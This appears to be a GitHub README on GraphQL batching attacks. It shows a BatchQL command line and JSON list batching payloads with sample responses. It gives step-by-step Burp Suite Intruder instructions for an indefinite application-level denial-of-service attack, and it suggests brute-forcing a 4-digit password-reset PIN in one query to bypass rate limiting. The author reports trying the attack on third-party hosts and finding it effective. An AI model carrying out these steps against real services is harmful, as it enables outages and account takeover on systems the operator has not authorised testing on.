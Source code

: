 **Graphql Batching Attack to Application Level DOS**

GraphQL is designed in a way that allows you to write clean code on the server, where every field on every type has a focused single-purpose function for resolving that value. However, without additional consideration, a naive GraphQL service could be very “chatty” or repeatedly load data from your databases.

This is commonly solved by a batching technique, where multiple requests for data from a backend are collected over a short period of time and then dispatched in a single request to an underlying database

# GraphQL-Batching-Attack

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

Tool:
https://github.com/assetnote/batchql

Recommdated Command: (*cautions* may cause the hyper stress in backend)


python3 batch.py -e https://ENDPOINT -w wordlist -p localhost:8080 -s 5000 (*you can increase the size of payload and you can see, is it causing stress on application or not) 



JSON list based batching

When sending a GraphQL query, a single query may look like the following:

{"query": "query { Query { hacktheplanet } }"}
As seen in the query above, it consists of a single JSON dictionary containing a single query.

Many GraphQL implementations support sending batch queries by providing a JSON list of queries, like shown below:

[
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]


In this case, a JSON list of queries is provided to the GraphQL server. If the GraphQL API supports this form of batching queries, it will respond with something like this:

[
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   },
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   }
]


Indicating that server-side batching was performed and both of the queries from the request were executed successfully.


TIME TO CONVERT JSON list based batching INTO APPLICATION DOS WITH BURPSUITE (*NOTE NOT TESTED IN BUGBOUNTY PROGRAM)

1. Capture the request JSON list based batching queries from the BatchQL tool
      [
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]
2.Send the request to repeater and replace the above payload with JSON_list_Application_DOS.txt and Send the request three or four times and note response timing.

3. Send the request to Intruder select the whole request and take the null payload, payload options to continue indefinitely, in itruder options go to the attack results and click on Use denial-of-service mode (U can use more then two or more intruder attack tab for more traffic )

4. Start the attack, go to repeater send the request and observe the response and try to load the web page.

Tried on third-party hosted graphql, it was quite effective and SOMETIMES ATTACK WILL FAIL IF TARGET HAVE CLOUDLFLARE 









